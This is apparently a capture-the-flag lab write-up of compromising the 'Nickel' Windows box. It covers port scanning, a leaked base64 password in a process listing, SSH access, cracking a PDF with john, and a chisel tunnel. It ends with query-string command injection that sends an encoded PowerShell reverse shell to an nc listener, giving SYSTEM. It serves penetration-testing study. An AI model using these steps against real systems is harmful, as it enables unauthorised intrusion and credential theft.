






## NMAP
```
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.60 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           syn-ack ttl 125 OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 86:84:fd:d5:43:27:05:cf:a7:f2:e9:e2:75:70:d5:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDYR4Bx82VWETlsjIFs21j6lZ6/S40jMJvuXF+ay4Qz4b+ws2YobB5h0+IrHdr3epMNFmSY8JXFWzIILhkvF/rmadXRtGwib1VZkSa3nr5oYdMajoWK0jOVSoFJmDTJvhj+T3XE7+Q0tEkQ2EeGPrz7nK5XWzBp8SZdywCE/iz1HLvUIlsOqpDWHSjrnjkUaaleTgoVTEi63Dx4inY2KS5mX2mnS/mLzMlLZ0qj8vL9gz6ZJgf7LMNhXb/pWOtxfn6zmSoVHXEXgubXwLtrn4wOIvbZkm5/uEx+eFzx1AOEQ2LjaKItEqLlP3E5sdutVP6yymDTGBtlXgfvtfGS2lgZiitorAXjjND6Sqcppp5lQJk2XSBJC58U0SzjXdyflJwsus5mnKnX79nKxXPNPwM6Z3Ki1O9vE+KsJ1dZJuaTINVgLqrgwJ7BCkI2HyojfqzjHs4FlYVHnukjqunG90OMyAASSR0oEnUTPqFmrtL/loEc3h44GT+8m9JS1LgdExU=
|   256 9c:93:cf:48:a9:4e:70:f4:60:de:e1:a9:c2:c0:b6:ff (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDJYE805huwKUl0fJM8+N9Mk7GUQeEEc5iA/yYqgxE7Bwgz4h5xufRONkR6bWxcxu8/AHslwkkDkjRKNdr4uFzY=
|   256 00:4e:d7:3b:0f:9f:e3:74:4d:04:99:0b:b1:8b:de:a5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL8cLYuHBTVFfYPb/YzUIyT39bUzA/sPDFEC/xChZyZ4
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2026-03-12T15:04:55+00:00
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-12-06T11:11:21
| Not valid after:  2026-06-07T11:11:21
| MD5:   dd00:d371:be60:8a7c:16e9:c5b0:66db:44ff
| SHA-1: 13a0:09d0:7f52:335b:e876:c1c4:b956:6f6a:d748:deb0
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQM3m8h0VdDrhKf65MScmDKjANBgkqhkiG9w0BAQsFADAR
| MQ8wDQYDVQQDEwZuaWNrZWwwHhcNMjUxMjA2MTExMTIxWhcNMjYwNjA3MTExMTIx
| WjARMQ8wDQYDVQQDEwZuaWNrZWwwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
| AoIBAQCpPU/YLLIJNYgbqevdIO69B3mWiWZIprpdVQdDgLt2GzMFUhuafvDESNCG
| YyK8+ZsK/VgptE9c1ZtxunsmIVerfxb7u7BaC61H5SvT9NKvsswvU1275zfODeV+
| 5pDcmJLTIfxHFk8xJT159PBl79M8urqFVGQc1sWFV9eldTnA41bn0dsDZds7BYIk
| WEpK6AeRUj1hBFV4CQHtVld5lxnF3pCeQPP2uN/gUxjdOkop/p6BSKTqOmi6oIsl
| yr5PS0U80Cwvcd58fE/osxrp0J4SI8955C4Sg5kbL+CYgPkd0DCiTnXFxneJdS7U
| JMQaXP58tiJzh3u9yce6f4KUI7bZAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUF
| BwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAoJ9UxliWKmei4/nP
| lzCwRZ38nN9sJrmyPj0nMY/LLFBupC+U8zsubORc0phehy82KJHSuqx2cGIuYELv
| UZ9mQvIqEnoe4wf25XrSl3vxangyJWnWQYE5DhhvvXnXqdJaebseGVT973nIcpys
| 7jCFOK0UvyimH0E5ABhdpxg6EVkpOJo5mSaBH8LU9gMxGCR66FO383faIPznK0O+
| /0Fidlx5uiz5mvkEYonGLhnggUlosFPaATXeabo/odH9LC2lQeh2cww6Yg2vAd4Q
| A0Jj1o/C9VRs7OBcBLnXySN3kdPbQp7eSbxAKnPbRc/FTVzi75RmTBAtPkmmczFc
| AAYfMQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-12T15:06:01+00:00; +1s from scanner time.
5040/tcp  open  unknown       syn-ack ttl 125
8089/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
| http-methods: 
|_  Supported Methods: GET
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
33333/tcp open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-methods: 
|_  Supported Methods: GET POST
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
|_http-title: Site doesn't have a title.
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-12T15:04:57
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 49847/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 48891/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 27765/udp): CLEAN (Timeout)
|   Check 4 (port 62150/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1s, deviation: 1s, median: 1s
```

## 21 FTP
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ nxc ftp 192.168.174.99 -u anonymous -p anonymous
FTP         192.168.174.99  21     192.168.174.99   [-] anonymous:anonymous (Response:530 Login or password incorrect!)
```

## 445 SMB
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ nxc smb 192.168.174.99 -u anonymous -p anonymous
SMB         192.168.174.99  445    NICKEL           [*] Windows 10 / Server 2019 Build 18362 x64 (name:NICKEL) (domain:nickel) (signing:False) (SMBv1:None)
SMB         192.168.174.99  445    NICKEL           [-] nickel\anonymous:anonymous STATUS_LOGON_FAILURE 
```

## 8089 33333 HTTP
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ dirsearch -u http://192.168.174.99:8089/  
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/Pen200/Nickel/reports/http_192.168.174.99_8089/__26-03-12_11-15-52.txt

Target: http://192.168.174.99:8089/

[11:15:52] Starting: 
[11:15:53] 403 -  312B  - /%2e%2e//google.com                               
[11:15:53] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd             
[11:15:58] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[11:16:06] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
                                                                             
Task Completed
                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ dirsearch -u http://192.168.174.99:33333/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/Pen200/Nickel/reports/http_192.168.174.99_33333/__26-03-12_11-16-52.txt

Target: http://192.168.174.99:33333/

[11:16:52] Starting: 
[11:16:53] 403 -  312B  - /%2e%2e//google.com                               
[11:16:53] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd             
[11:16:57] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[11:17:10] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
                                                                             
Task Completed
```



```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ curl -X POST -i http://192.168.174.99:33333 -H "Content-Type: application/json" -H "Content-Length:100"
HTTP/1.1 200 OK
Content-Length: 22
Server: Microsoft-HTTPAPI/2.0
Date: Thu, 12 Mar 2026 15:55:44 GMT

<p>Not Implemented</p>                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ curl -X POST -i http://192.168.174.99:33333/list-current-deployments -H "Content-Type: application/json" -H "Content-Length:100"
HTTP/1.1 200 OK
Content-Length: 22
Server: Microsoft-HTTPAPI/2.0
Date: Thu, 12 Mar 2026 15:56:23 GMT

<p>Not Implemented</p>                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ curl -X POST -i http://192.168.174.99:33333/list-running-procs -H "Content-Type: application/json" -H "Content-Length:100"
HTTP/1.1 200 OK
Content-Length: 2833
Server: Microsoft-HTTPAPI/2.0
Date: Thu, 12 Mar 2026 15:56:49 GMT


name        : System Idle Process
commandline : 

name        : System
commandline : 

name        : Registry
commandline : 

name        : smss.exe
commandline : 

name        : csrss.exe
commandline : 

name        : wininit.exe
commandline : 

name        : csrss.exe
commandline : 

name        : winlogon.exe
commandline : winlogon.exe

name        : services.exe
commandline : 

name        : lsass.exe
commandline : C:\Windows\system32\lsass.exe

name        : fontdrvhost.exe
commandline : "fontdrvhost.exe"

name        : fontdrvhost.exe
commandline : "fontdrvhost.exe"

name        : dwm.exe
commandline : "dwm.exe"

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws80.ps1

name        : Memory Compression
commandline : 

name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws8089.ps1

name        : powershell.exe
commandline : powershell.exe -nop -ep bypass C:\windows\system32\ws33333.ps1

name        : FileZilla Server.exe
commandline : "C:\Program Files (x86)\FileZilla Server\FileZilla Server.exe"

name        : sshd.exe
commandline : "C:\Program Files\OpenSSH\OpenSSH-Win64\sshd.exe"

name        : VGAuthService.exe
commandline : "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"

name        : vm3dservice.exe
commandline : C:\Windows\system32\vm3dservice.exe

name        : vmtoolsd.exe
commandline : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"

name        : vm3dservice.exe
commandline : vm3dservice.exe -n

name        : dllhost.exe
commandline : C:\Windows\system32\dllhost.exe /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235}

name        : WmiPrvSE.exe
commandline : C:\Windows\system32\wbem\wmiprvse.exe

name        : msdtc.exe
commandline : C:\Windows\System32\msdtc.exe

name        : LogonUI.exe
commandline : "LogonUI.exe" /flags:0x2 /state0:0xa3961855 /state1:0x41c64e6d

name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4

name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4

name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4

name        : conhost.exe
commandline : \??\C:\Windows\system32\conhost.exe 0x4

name        : MicrosoftEdgeUpdate.exe
commandline : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /c

name        : SgrmBroker.exe
commandline : 

name        : SearchIndexer.exe
commandline : C:\Windows\system32\SearchIndexer.exe /Embedding
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ echo "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" | base64 -d
NowiseSloopTheory139
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ ssh ariah@192.168.174.99 
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
ariah@192.168.174.99's password: 
Microsoft Windows [Version 10.0.18362.1016]
(c) 2019 Microsoft Corporation. All rights reserved.

ariah@NICKEL C:\Users\ariah>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled

ariah@NICKEL C:\Users\ariah>
```

## Privilege Escalation
```
ariah@NICKEL C:\Users\ariah>dir c:\
 Volume in drive C has no label.
 Volume Serial Number is 9451-68F7

 Directory of c:\

09/01/2020  12:38 PM    <DIR>          ftp
03/12/2026  07:45 AM             2,659 output.txt
09/01/2020  12:04 PM    <DIR>          PerfLogs
04/14/2022  05:22 AM    <DIR>          Program Files
04/14/2022  04:43 AM    <DIR>          Program Files (x86)
09/01/2020  12:38 PM    <DIR>          Users
04/14/2022  05:23 AM    <DIR>          Windows
               1 File(s)          2,659 bytes
               6 Dir(s)   7,630,757,888 bytes free

ariah@NICKEL C:\Users\ariah>dir c:\ftp
 Volume in drive C has no label.
 Volume Serial Number is 9451-68F7

 Directory of c:\ftp

09/01/2020  12:38 PM    <DIR>          .
09/01/2020  12:38 PM    <DIR>          ..
09/01/2020  11:02 AM            46,235 Infrastructure.pdf
               1 File(s)         46,235 bytes
               2 Dir(s)   7,630,757,888 bytes free
```



```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ pdf2john Infrastructure.pdf > pdfhash
                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ ll
total 56
-rwxrwxr-x 1 kali kali 46235 Sep  1  2020 Infrastructure.pdf
-rw-rw-r-- 1 kali kali   212 Mar 12 12:08 pdfhash
drwxrwxr-x 4 kali kali  4096 Mar 12 11:16 reports
                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt pdfhash 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ariah4168        (Infrastructure.pdf)     
1g 0:00:00:37 DONE (2026-03-12 12:10) 0.02671g/s 267278p/s 267278c/s 267278C/s arial<3..ariadne01
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed. 
```



```
╔══════════╣ Current TCP Listening Ports                                                                                                                                                                  
╚ Check for services restricted from the outside                                                                                                                                                   
  Enumerating IPv4 connections                                                                                                                                                                                       
                                                                                                                                                                                                                            
  Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

  TCP        0.0.0.0               21            0.0.0.0               0               Listening         1900            FileZilla Server
  TCP        0.0.0.0               22            0.0.0.0               0               Listening         1976            sshd
  TCP        0.0.0.0               135           0.0.0.0               0               Listening         836             svchost
  TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               3389          0.0.0.0               0               Listening         1004            svchost
  TCP        0.0.0.0               5040          0.0.0.0               0               Listening         364             svchost
  TCP        0.0.0.0               8089          0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               33333         0.0.0.0               0               Listening         4               System
  TCP        0.0.0.0               49664         0.0.0.0               0               Listening         620             lsass
  TCP        0.0.0.0               49665         0.0.0.0               0               Listening         520             wininit
  TCP        0.0.0.0               49666         0.0.0.0               0               Listening         408             svchost
  TCP        0.0.0.0               49667         0.0.0.0               0               Listening         1012            svchost
  TCP        0.0.0.0               49668         0.0.0.0               0               Listening         612             services
  TCP        0.0.0.0               49669         0.0.0.0               0               Listening         1820            svchost
  TCP        127.0.0.1             80            0.0.0.0               0               Listening         4               System                                                                              
  TCP        127.0.0.1             14147         0.0.0.0               0               Listening         1900            FileZilla Server                                                                    
  TCP        192.168.218.99        22            192.168.45.208        33292           Established       1976            sshd
  TCP        192.168.218.99        139           0.0.0.0               0               Listening         4               System
```

```bash
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ ./chisel server --reverse -p 9001
2026/03/13 09:20:31 server: Reverse tunnelling enabled
2026/03/13 09:20:31 server: Fingerprint 1QfPEc98pznUjYlzXgDmUnZeQglYm9eN1n4i+UfnhFU=
2026/03/13 09:20:31 server: Listening on http://0.0.0.0:9001
2026/03/13 09:23:52 server: session#1: tun: proxy#R:80=>80: Listening
```
```
ariah@NICKEL C:\Users\ariah>.\chisel_1.11.5_windows_amd64.exe client 192.168.45.235:9001 R:80:127.0.0.1:80
2026/03/13 06:23:52 client: Connecting to ws://192.168.45.235:9001
2026/03/13 06:23:53 client: Connected (Latency 67.6658ms)
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ dirsearch -u http://127.0.0.1/            
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/Pen200/Nickel/reports/http_127.0.0.1/__26-03-13_09-24-15.txt

Target: http://127.0.0.1/

[09:24:15] Starting: 
[09:24:16] 403 -  312B  - /%2e%2e//google.com                               
[09:24:17] 200 -  330B  - /%3f/                                             
[09:24:17] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd             
[09:24:25] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[09:24:33] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
[09:24:35] 200 -    0B  - /download                                         
[09:24:40] 200 -    0B  - /log                                              
[09:24:49] 200 -    0B  - /Upload                                           
[09:24:49] 200 -    0B  - /upload                                           
                                                                             
Task Completed
```
<br></br>
1. `http://127.0.0.1/%3f/`

   

2. `http://127.0.0.1/whoami`

   

3. `http://127.0.0.1/?whoami`

   


4. `http://127.0.0.1/?powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdw...`

   

```
┌──(kali㉿kali)-[~/Desktop/Pen200/Nickel]
└─$ nc -lvnp 4444                                                                                  
listening on [any] 4444 ...
connect to [192.168.45.235] from (UNKNOWN) [192.168.218.99] 49724

PS C:\Windows\system32> whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                             Attributes                                        
====================================== ================ =============================================================== ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                      
Everyone                               Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
```

## REF
https://medium.com/@Dpsypher/proving-grounds-practice-nickel-f76b06f60db1